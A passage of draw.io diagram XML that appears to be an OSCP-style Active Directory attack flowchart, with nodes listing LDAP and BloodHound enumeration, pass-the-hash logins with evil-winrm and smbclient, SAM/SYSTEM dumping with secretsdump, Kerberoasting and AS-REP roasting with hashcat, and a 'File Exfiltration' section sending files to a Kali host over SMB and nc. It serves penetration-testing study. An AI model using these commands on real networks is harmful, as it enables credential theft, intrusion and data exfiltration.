        <mxCell id="0bsg29gYugO094JGQ751-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-68" target="0bsg29gYugO094JGQ751-67" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-68" value="Enumerate the DC for all users" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="290" width="150" height="55" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-73" value="impacket-ldapdomaindump -u &amp;lt;user&amp;gt; -p &amp;lt;password&amp;gt; ldap://&amp;lt;dc_ip&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="372.5" width="380" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-75" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-74" target="0bsg29gYugO094JGQ751-73" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-74" value="Enumerate LDAP on the DC" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="360" width="150" height="55" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-76" value="&lt;span style=&quot;font-family: Nunito, &amp;quot;Segoe UI Emoji&amp;quot;; text-align: start; white-space: pre;&quot;&gt;&lt;font style=&quot;color: rgb(0, 0, 0); font-size: 12px;&quot;&gt;evil-winrm -i &amp;lt;ip&amp;gt; -u &amp;lt;user&amp;gt; -H &amp;lt;hash&amp;gt;&lt;/font&gt;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="652.5" y="110" width="240" height="27.5" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-78" value="&lt;span style=&quot;font-family: Nunito, &amp;quot;Segoe UI Emoji&amp;quot;; text-align: start; white-space: pre;&quot;&gt;&lt;font style=&quot;color: rgb(0, 0, 0); font-size: 12px;&quot;&gt;evil-winrm -i &amp;lt;ip&amp;gt; -u &amp;lt;user&amp;gt; -p &amp;lt;password&amp;gt;&lt;/font&gt;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="652.5" y="150" width="260" height="27.5" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-80" value="&lt;span style=&quot;font-family: Nunito, &amp;quot;Segoe UI Emoji&amp;quot;; text-align: start; white-space: pre;&quot;&gt;&lt;font style=&quot;color: rgb(0, 0, 0); font-size: 12px;&quot;&gt;smbclient \\\\&amp;lt;IP&amp;gt;\\&amp;lt;share&amp;gt; -U oscp.exam/&amp;lt;user&amp;gt;%&amp;lt;password&amp;gt;&lt;/font&gt;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="652.5" y="253.75" width="370" height="27.5" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-82" value="&lt;div style=&quot;text-align: start;&quot;&gt;&lt;span style=&quot;background-color: transparent; white-space: pre;&quot;&gt;&lt;font style=&quot;&quot; face=&quot;Nunito, Segoe UI Emoji&quot;&gt;smbclient //&amp;lt;TARGET_IP&amp;gt;/&amp;lt;ShareName&amp;gt; -U &#39;&amp;lt;domain&amp;gt;\\&amp;lt;user&amp;gt;%LMHASH:NTHASH&#39;&lt;/font&gt;&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="652.5" y="210" width="470" height="27.5" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-86" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-84" target="0bsg29gYugO094JGQ751-85" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-89" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-84" target="0bsg29gYugO094JGQ751-87" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-91" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-84" target="0bsg29gYugO094JGQ751-90" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-84" value="Locate SYSTEM and SAM backups" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="440" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-85" value="&lt;div&gt;dir /S /B&amp;nbsp;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;SYSTEM&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;2&amp;gt;nul&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="424" width="180" height="26" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-87" value="&lt;div&gt;dir /S /B&amp;nbsp;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;SAM&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;2&amp;gt;nul&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="457" width="180" height="26" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-90" value="&lt;div&gt;dir /S /B&amp;nbsp;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;SECURITY&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;2&amp;gt;nul&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="490" width="180" height="26" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-92" value="" style="strokeWidth=2;html=1;shape=mxgraph.flowchart.annotation_2;align=left;labelPosition=right;pointerEvents=1;rotation=-180;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="402.5" y="420" width="50" height="100" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-95" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-93" target="0bsg29gYugO094JGQ751-94" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-93" value="Dump secrets locally from kali" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="452.5" y="435" width="130" height="70" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-94" value="impacket-secretsdump -system SYSTEM -sam SAM" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="622.5" y="455" width="300" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-98" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-96" target="0bsg29gYugO094JGQ751-97" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-96" value="run a sharphound scan" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="32.5" y="40" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-103" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-97" target="0bsg29gYugO094JGQ751-102" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-97" value="nxc ldap &amp;lt;ip&amp;gt; -u &amp;lt;user&amp;gt;-p &amp;lt;pass&amp;gt;--bloodhound --collection All" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="212.5" y="55" width="350" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-105" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="0bsg29gYugO094JGQ751-102" target="0bsg29gYugO094JGQ751-104" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-102" value="sudo bloodhound" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="602.5" y="55" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-104" value="Upload files to bloodhound" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="752.5" y="45" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="K5Gh5GtL-8Vc5NBjFgpw-1" target="K5Gh5GtL-8Vc5NBjFgpw-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-1" value="Find kerberoastable service accounts" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="540" width="152.5" height="60" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="K5Gh5GtL-8Vc5NBjFgpw-2" target="K5Gh5GtL-8Vc5NBjFgpw-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-2" value="impacket-GetUserSPNs &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;password&amp;gt;@&amp;lt;ip&amp;gt; -dc-ip &amp;lt;DC01 ip&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="215" y="555" width="447.5" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="K5Gh5GtL-8Vc5NBjFgpw-4" target="K5Gh5GtL-8Vc5NBjFgpw-13" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-4" value="Crack the hash" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="692.5" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-13" value="Impacket-mssqlclient -windowsauth &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;password&amp;gt;@&amp;lt;ip&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="832.5" y="555" width="410" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-16" value="If sql_svc, you can gain a shell using port 3306 mssql" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="780" y="530" width="385" height="30" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-0" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="LeqnBB_J6Sy1xCxizt_X-1" target="LeqnBB_J6Sy1xCxizt_X-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-1" value="Find AS-REP-roastable accounts" style="rounded=1;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="27.5" y="630" width="152.5" height="60" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="0bsg29gYugO094JGQ751-55" source="LeqnBB_J6Sy1xCxizt_X-3" target="LeqnBB_J6Sy1xCxizt_X-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-3" value="&lt;div&gt;impacket-GetNPUsers -request &lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;-format hashcat &lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;-outputfile auth_hashes.txt&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;-dc-ip &amp;lt;dc_ip&amp;gt;&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&#39;domain.xyz/&amp;lt;user&amp;gt;:&amp;lt;password&amp;gt;&#39;&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="215" y="636.25" width="447.5" height="47.5" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="0bsg29gYugO094JGQ751-55" source="LeqnBB_J6Sy1xCxizt_X-5" target="LeqnBB_J6Sy1xCxizt_X-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-5" value="Crack the hash with hashcat" style="ellipse;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="692.5" y="630" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="LeqnBB_J6Sy1xCxizt_X-6" value="hashcat -m 18200 auth_hashes.txt rockyou.txt" style="rounded=0;whiteSpace=wrap;html=1;" parent="0bsg29gYugO094JGQ751-55" vertex="1">
          <mxGeometry x="832.5" y="645" width="277.5" height="30" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="0bsg29gYugO094JGQ751-71" target="0bsg29gYugO094JGQ751-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="0bsg29gYugO094JGQ751-71" value="Repeat local privilege escalation if possible" style="ellipse;whiteSpace=wrap;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-360" y="1150" width="140" height="80" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-17" value="File Exfiltration" style="swimlane;whiteSpace=wrap;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="190" y="1290" width="1290" height="640" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-18" value="From MS01" style="swimlane;whiteSpace=wrap;html=1;startSize=23;" parent="K5Gh5GtL-8Vc5NBjFgpw-17" vertex="1">
          <mxGeometry x="10" y="40" width="1270" height="290" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-21" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" source="K5Gh5GtL-8Vc5NBjFgpw-19" target="K5Gh5GtL-8Vc5NBjFgpw-20" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-19" value="Using evil-winrm" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="20" y="37.5" width="120" height="42.5" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-20" value="upload &amp;lt;local file or path&amp;gt; &amp;lt;../../../../../../../../../kali directory&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="172" y="43.13" width="445" height="31.25" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-26" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" source="K5Gh5GtL-8Vc5NBjFgpw-23" target="K5Gh5GtL-8Vc5NBjFgpw-25" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-23" value="Using smb" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="20" y="110" width="120" height="42.5" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-24" value="copy &amp;lt;file&amp;gt; \\&amp;lt;kali ip&amp;gt;\&amp;lt;sharename&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="480" y="115.63" width="207" height="31.25" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-27" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" source="K5Gh5GtL-8Vc5NBjFgpw-25" target="K5Gh5GtL-8Vc5NBjFgpw-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-25" value="impacket-smbserver &amp;lt;local dir&amp;gt; -smb2support" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="172" y="115.62" width="268" height="31.25" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-28" value="On kali" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="165" y="91" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-30" value="On ms01" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="480" y="90" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-49" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" source="K5Gh5GtL-8Vc5NBjFgpw-47" target="K5Gh5GtL-8Vc5NBjFgpw-48" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-47" value="Using nc" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="20" y="179.88" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-53" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" source="K5Gh5GtL-8Vc5NBjFgpw-48" target="K5Gh5GtL-8Vc5NBjFgpw-51" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-48" value="nc -l --send-only -p &amp;lt;port&amp;gt; &amp;lt; &amp;lt;file&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="172" y="182.38" width="215" height="25" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-50" value="On ms01" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="172" y="160.0" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-51" value="nc &amp;lt;ms01 ip&amp;gt; &amp;lt;port&amp;gt; &amp;gt; &amp;lt;file&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="420" y="182.38" width="215" height="25" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-52" value="On kali" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-18" vertex="1">
          <mxGeometry x="410" y="160" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-31" value="From MS02" style="swimlane;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-17" vertex="1">
          <mxGeometry x="10" y="340" width="1270" height="290" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" source="K5Gh5GtL-8Vc5NBjFgpw-32" target="K5Gh5GtL-8Vc5NBjFgpw-33" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-32" value="Transferring to a smb dir on MS01&amp;nbsp;" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="20" y="38" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" source="K5Gh5GtL-8Vc5NBjFgpw-33" target="K5Gh5GtL-8Vc5NBjFgpw-37" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-33" value="net share exfil=C:\Users\&amp;lt;user&amp;gt;\Documents /GRANT:Everyone,FULL" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="180" y="53.5" width="390" height="29" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-35" value="On ms01 admin shell" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="174" y="30" width="130" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-41" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" source="K5Gh5GtL-8Vc5NBjFgpw-37" target="K5Gh5GtL-8Vc5NBjFgpw-40" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-37" value="net use X: \\&amp;lt;MS01 internal ip&amp;gt;\exfil /user:&amp;lt;domain&amp;gt;\&amp;lt;user&amp;gt; &amp;lt;password&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="172.5" y="113" width="405" height="29" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-39" value="On ms02" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="134" y="90" width="130" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-44" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" source="K5Gh5GtL-8Vc5NBjFgpw-40" target="K5Gh5GtL-8Vc5NBjFgpw-43" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-40" value="copy &amp;lt;file&amp;gt; X:\" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="326.25" y="163" width="97.5" height="29" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-42" value="On ms02" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="280" y="141" width="130" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-43" value="Transfer files from ms01 to kali" style="ellipse;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-31" vertex="1">
          <mxGeometry x="316.25" y="213" width="117.5" height="54" as="geometry" />
        </mxCell>
